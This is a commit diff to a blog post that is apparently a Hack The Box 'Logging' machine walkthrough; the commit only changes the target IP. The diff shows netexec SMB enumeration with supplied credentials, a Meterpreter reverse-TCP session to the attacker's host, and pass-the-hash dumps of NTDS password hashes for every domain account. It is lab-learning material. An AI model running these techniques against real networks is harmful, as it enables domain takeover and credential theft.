

Before and after one commit to thesecretmyth/thesecretmyth.github.io, a Jekyll site: the page built from _posts/2026-07-19-htb-logging.md, in a window 1280 px wide and 1400 px high, scrolled down 3318 px. Shown: the whole window, without its empty margins (228-1051 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Updated HTB: Logging

````diff
--- a/_posts/2026-07-19-htb-logging.md
+++ b/_posts/2026-07-19-htb-logging.md
@@ -2,7 +2,7 @@
 
 ## Machine: Logging
 
-* Target-IP: `10.129.245.130`
+* Target-IP: `10.129.62.234`
 * OS: `Windows`
 * Difficulty: `Medium`
 * Initial Creds: `wallace.everette`:`Welcome2026@`
@@ -119,12 +119,12 @@
 
 ```bash
 # Generate hosts file
-➜ nxc smb 10.129.245.130 --generate-hosts-file /tmp/hosts.txt
-SMB         10.129.245.130  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
+➜ nxc smb 10.129.62.234 --generate-hosts-file /tmp/hosts.txt
+SMB         10.129.62.234  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
 
 # Update local DNS routing
-➜ echo '10.129.245.130     DC01.logging.htb logging.htb DC01' | sudo tee -a /etc/hosts
-10.129.245.130     DC01.logging.htb logging.htb DC01
+➜ echo '10.129.62.234     DC01.logging.htb logging.htb DC01' | sudo tee -a /etc/hosts
+10.129.62.234     DC01.logging.htb logging.htb DC01
 ```
 
 ---
@@ -140,34 +140,34 @@
 ➜ nxc smb dc01.logging.htb \
     -u 'wallace.everette' -p 'Welcome2026@' \
     -M spider_plus
-SMB         10.129.245.130   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
-SMB         10.129.245.130   445    DC01             [+] logging.htb\wallace.everette:Welcome2026@
-SPIDER_PLUS 10.129.245.130   445    DC01             [*] Started module spidering_plus with the following options:
-SPIDER_PLUS 10.129.245.130   445    DC01             [*]  DOWNLOAD_FLAG: False
-SPIDER_PLUS 10.129.245.130   445    DC01             [*]     STATS_FLAG: True
-SPIDER_PLUS 10.129.245.130   445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
-SPIDER_PLUS 10.129.245.130   445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
-SPIDER_PLUS 10.129.245.130   445    DC01             [*]  MAX_FILE_SIZE: 50 KB
-SPIDER_PLUS 10.129.245.130   445    DC01             [*]  OUTPUT_FOLDER: /home/deus/.nxc/modules/nxc_spider_plus
-SMB         10.129.245.130   445    DC01             [*] Enumerated shares
-SMB         10.129.245.130   445    DC01             Share           Permissions     Remark
-SMB         10.129.245.130   445    DC01             -----           -----------     ------
-SMB         10.129.245.130   445    DC01             ADMIN$                          Remote Admin
-SMB         10.129.245.130   445    DC01             C$                              Default share
-SMB         10.129.245.130   445    DC01             IPC$            READ            Remote IPC
-SMB         10.129.245.130   445    DC01             Logs            READ
-SMB         10.129.245.130   445    DC01             NETLOGON        READ            Logon server share
-SMB         10.129.245.130   445    DC01             SYSVOL          READ            Logon server share
-SMB         10.129.245.130   445    DC01             WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
-SPIDER_PLUS 10.129.245.130   445    DC01             [+] Saved share-file metadata to "/home/deus/.nxc/modules/nxc_spider_plus/10.129.245.130.json".
-SPIDER_PLUS 10.129.245.130   445    DC01             [*] SMB Shares:           7 (ADMIN$, C$, IPC$, Logs, NETLOGON, SYSVOL, WSUSTemp)
-SPIDER_PLUS 10.129.245.130   445    DC01             [*] SMB Readable Shares:  4 (IPC$, Logs, NETLOGON, SYSVOL)
-SPIDER_PLUS 10.129.245.130   445    DC01             [*] SMB Filtered Shares:  1
-SPIDER_PLUS 10.129.245.130   445    DC01             [*] Total folders found:  19
-SPIDER_PLUS 10.129.245.130   445    DC01             [*] Total files found:    9
-SPIDER_PLUS 10.129.245.130   445    DC01             [*] File size average:    2.2 KB
-SPIDER_PLUS 10.129.245.130   445    DC01             [*] File size min:        22 B
-SPIDER_PLUS 10.129.245.130   445    DC01             [*] File size max:        8.29 KB
+SMB         10.129.62.234   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
+SMB         10.129.62.234   445    DC01             [+] logging.htb\wallace.everette:Welcome2026@
+SPIDER_PLUS 10.129.62.234   445    DC01             [*] Started module spidering_plus with the following options:
+SPIDER_PLUS 10.129.62.234   445    DC01             [*]  DOWNLOAD_FLAG: False
+SPIDER_PLUS 10.129.62.234   445    DC01             [*]     STATS_FLAG: True
+SPIDER_PLUS 10.129.62.234   445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
+SPIDER_PLUS 10.129.62.234   445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
+SPIDER_PLUS 10.129.62.234   445    DC01             [*]  MAX_FILE_SIZE: 50 KB
+SPIDER_PLUS 10.129.62.234   445    DC01             [*]  OUTPUT_FOLDER: /home/deus/.nxc/modules/nxc_spider_plus
+SMB         10.129.62.234   445    DC01             [*] Enumerated shares
+SMB         10.129.62.234   445    DC01             Share           Permissions     Remark
+SMB         10.129.62.234   445    DC01             -----           -----------     ------
+SMB         10.129.62.234   445    DC01             ADMIN$                          Remote Admin
+SMB         10.129.62.234   445    DC01             C$                              Default share
+SMB         10.129.62.234   445    DC01             IPC$            READ            Remote IPC
+SMB         10.129.62.234   445    DC01             Logs            READ
+SMB         10.129.62.234   445    DC01             NETLOGON        READ            Logon server share
+SMB         10.129.62.234   445    DC01             SYSVOL          READ            Logon server share
+SMB         10.129.62.234   445    DC01             WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
+SPIDER_PLUS 10.129.62.234   445    DC01             [+] Saved share-file metadata to "/home/deus/.nxc/modules/nxc_spider_plus/10.129.62.234.json".
+SPIDER_PLUS 10.129.62.234   445    DC01             [*] SMB Shares:           7 (ADMIN$, C$, IPC$, Logs, NETLOGON, SYSVOL, WSUSTemp)
+SPIDER_PLUS 10.129.62.234   445    DC01             [*] SMB Readable Shares:  4 (IPC$, Logs, NETLOGON, SYSVOL)
+SPIDER_PLUS 10.129.62.234   445    DC01             [*] SMB Filtered Shares:  1
+SPIDER_PLUS 10.129.62.234   445    DC01             [*] Total folders found:  19
+SPIDER_PLUS 10.129.62.234   445    DC01             [*] Total files found:    9
+SPIDER_PLUS 10.129.62.234   445    DC01             [*] File size average:    2.2 KB
+SPIDER_PLUS 10.129.62.234   445    DC01             [*] File size min:        22 B
+SPIDER_PLUS 10.129.62.234   445    DC01             [*] File size max:        8.29 KB
 ```
 
 ### 2.1.1 SMB Findings
@@ -232,8 +232,8 @@
 # Initial validation attempt (NTLM)
 ➜ nxc smb dc01.logging.htb \
     -u 'svc_recovery' -p 'Em3rg3ncyPa$$2025'
-SMB         10.129.245.130   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
-SMB         10.129.245.130   445    DC01             [-] logging.htb\svc_recovery:Em3rg3ncyPa$$2025 STATUS_ACCOUNT_RESTRICTION
+SMB         10.129.62.234   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
+SMB         10.129.62.234   445    DC01             [-] logging.htb\svc_recovery:Em3rg3ncyPa$$2025 STATUS_ACCOUNT_RESTRICTION
 ```
 
 The `STATUS_ACCOUNT_RESTRICTION` error indicates that the account is prevented from logging in under the current context—often because NTLM authentication is explicitly disabled for the account (or domain-wide), forcing the use of Kerberos.
@@ -650,8 +650,8 @@
 LHOST => tun0
 LPORT => 9294
 [*] Started reverse TCP handler on 10.10.16.25:9294
-[*] Sending stage (199238 bytes) to 10.129.245.130
-[*] Meterpreter session 1 opened (10.10.16.25:9294 -> 10.129.245.130:55490) at 2026-04-22 21:59:33 +0530
+[*] Sending stage (199238 bytes) to 10.129.62.234
+[*] Meterpreter session 1 opened (10.10.16.25:9294 -> 10.129.62.234:55490) at 2026-04-22 21:59:33 +0530
 
 meterpreter > getuid
 Server username: logging\jaylee.clifton
@@ -970,23 +970,23 @@
 ➜ nxc smb dc01.logging.htb \
         -u administrator -p 'Password123!' \
         --ntds
-SMB         10.129.245.130    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
-SMB         10.129.245.130    445    DC01             [+] logging.htb\administrator:Password123! (Pwn3d!)
-SMB         10.129.245.130    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
-SMB         10.129.245.130    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
-SMB         10.129.245.130    445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
-SMB         10.129.245.130    445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:66ff41c8e28783a47fd7617f1f0125f0:::
-SMB         10.129.245.130    445    DC01             logging.htb\svc_recovery:2104:aad3b435b51404eeaad3b435b51404ee:fbeb47c9c100020d3b9ebaf1ce839fb3:::
-SMB         10.129.245.130    445    DC01             logging.htb\jaylee.clifton:2105:aad3b435b51404eeaad3b435b51404ee:1abff5519c569c11dc713706b4a15ae0:::
-SMB         10.129.245.130    445    DC01             logging.htb\monique.chip:2106:aad3b435b51404eeaad3b435b51404ee:5595521651b7510b86438f7452606abf:::
-SMB         10.129.245.130    445    DC01             logging.htb\kyson.abel:2107:aad3b435b51404eeaad3b435b51404ee:a50981f25606aeaa0d442f0fcbbce699:::
-SMB         10.129.245.130    445    DC01             logging.htb\fable.milford:2108:aad3b435b51404eeaad3b435b51404ee:26a4b1da75600cdd7a3d77789d40a889:::
-SMB         10.129.245.130    445    DC01             logging.htb\wellington.kylan:2109:aad3b435b51404eeaad3b435b51404ee:20a6efc7a20a14021a717fa06cd250f8:::
-SMB         10.129.245.130    445    DC01             logging.htb\serina.philander:2110:aad3b435b51404eeaad3b435b51404ee:42961be97eb21e2fa7664b115e2ac3af:::
-SMB         10.129.245.130    445    DC01             logging.htb\wallace.everette:2111:aad3b435b51404eeaad3b435b51404ee:40e28a964e1a6a6512d0ebc70f1ca811:::
-SMB         10.129.245.130    445    DC01             logging.htb\toby.brynleigh:2112:aad3b435b51404eeaad3b435b51404ee:ac384497550a56937cd6edd784fb221c:::
-SMB         10.129.245.130    445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b4d05e08453f856b0ff4af1125157a84:::
-SMB         10.129.245.130    445    DC01             msa_health$:2113:aad3b435b51404eeaad3b435b51404ee:603fc24ee01a9409f83c9d1d701485c5:::
+SMB         10.129.62.234    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
+SMB         10.129.62.234    445    DC01             [+] logging.htb\administrator:Password123! (Pwn3d!)
+SMB         10.129.62.234    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
+SMB         10.129.62.234    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
+SMB         10.129.62.234    445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
+SMB         10.129.62.234    445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:66ff41c8e28783a47fd7617f1f0125f0:::
+SMB         10.129.62.234    445    DC01             logging.htb\svc_recovery:2104:aad3b435b51404eeaad3b435b51404ee:fbeb47c9c100020d3b9ebaf1ce839fb3:::
+SMB         10.129.62.234    445    DC01             logging.htb\jaylee.clifton:2105:aad3b435b51404eeaad3b435b51404ee:1abff5519c569c11dc713706b4a15ae0:::
+SMB         10.129.62.234    445    DC01             logging.htb\monique.chip:2106:aad3b435b51404eeaad3b435b51404ee:5595521651b7510b86438f7452606abf:::
+SMB         10.129.62.234    445    DC01             logging.htb\kyson.abel:2107:aad3b435b51404eeaad3b435b51404ee:a50981f25606aeaa0d442f0fcbbce699:::
+SMB         10.129.62.234    445    DC01             logging.htb\fable.milford:2108:aad3b435b51404eeaad3b435b51404ee:26a4b1da75600cdd7a3d77789d40a889:::
+SMB         10.129.62.234    445    DC01             logging.htb\wellington.kylan:2109:aad3b435b51404eeaad3b435b51404ee:20a6efc7a20a14021a717fa06cd250f8:::
+SMB         10.129.62.234    445    DC01             logging.htb\serina.philander:2110:aad3b435b51404eeaad3b435b51404ee:42961be97eb21e2fa7664b115e2ac3af:::
+SMB         10.129.62.234    445    DC01             logging.htb\wallace.everette:2111:aad3b435b51404eeaad3b435b51404ee:40e28a964e1a6a6512d0ebc70f1ca811:::
+SMB         10.129.62.234    445    DC01             logging.htb\toby.brynleigh:2112:aad3b435b51404eeaad3b435b51404ee:ac384497550a56937cd6edd784fb221c:::
+SMB         10.129.62.234    445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b4d05e08453f856b0ff4af1125157a84:::
+SMB         10.129.62.234    445    DC01             msa_health$:2113:aad3b435b51404eeaad3b435b51404ee:603fc24ee01a9409f83c9d1d701485c5:::
 ```
 
 At this point, we own the network and every account within it, completing the total compromise of the `logging.htb` domain.
@@ -1044,11 +1044,11 @@
 ➜ nxc ldap dc01.logging.htb \
         -u 'msa_health$' -H '603fc24ee01a9409f83c9d1d701485c5' \
         --groups 'Domain Admins'
-LDAP        10.129.245.130    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:logging.htb) (signing:None) (channel binding:Never)
-LDAP        10.129.245.130    389    DC01             [+] logging.htb\msa_health$:603fc24ee01a9409f83c9d1d701485c5
-LDAP        10.129.245.130    389    DC01             Administrator
-LDAP        10.129.245.130    389    DC01             toby.brynleigh
-LDAP        10.129.245.130    389    DC01             msa_health$
+LDAP        10.129.62.234    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:logging.htb) (signing:None) (channel binding:Never)
+LDAP        10.129.62.234    389    DC01             [+] logging.htb\msa_health$:603fc24ee01a9409f83c9d1d701485c5
+LDAP        10.129.62.234    389    DC01             Administrator
+LDAP        10.129.62.234    389    DC01             toby.brynleigh
+LDAP        10.129.62.234    389    DC01             msa_health$
 ```
 
 With Domain Admin privileges successfully granted to an account we hold the hash for, we can immediately utilize Pass-the-Hash (PtH) to dump the active directory database (`NTDS.dit`) and compromise the entire network.
@@ -1057,10 +1057,10 @@
 ➜ nxc smb dc01.logging.htb \
         -u 'msa_health$' -H '603fc24ee01a9409f83c9d1d701485c5' \
         --ntds
-SMB         10.129.245.130    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
-SMB         10.129.245.130    445    DC01             [+] logging.htb\msa_health$:603fc24ee01a9409f83c9d1d701485c5 (Pwn3d!)
-SMB         10.129.245.130    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
-SMB         10.129.245.130    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a0c1d1bed9126632f5f1f2b3f790bdb5:::
+SMB         10.129.62.234    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
+SMB         10.129.62.234    445    DC01             [+] logging.htb\msa_health$:603fc24ee01a9409f83c9d1d701485c5 (Pwn3d!)
+SMB         10.129.62.234    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
+SMB         10.129.62.234    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a0c1d1bed9126632f5f1f2b3f790bdb5:::
 ```
 
 ---
````
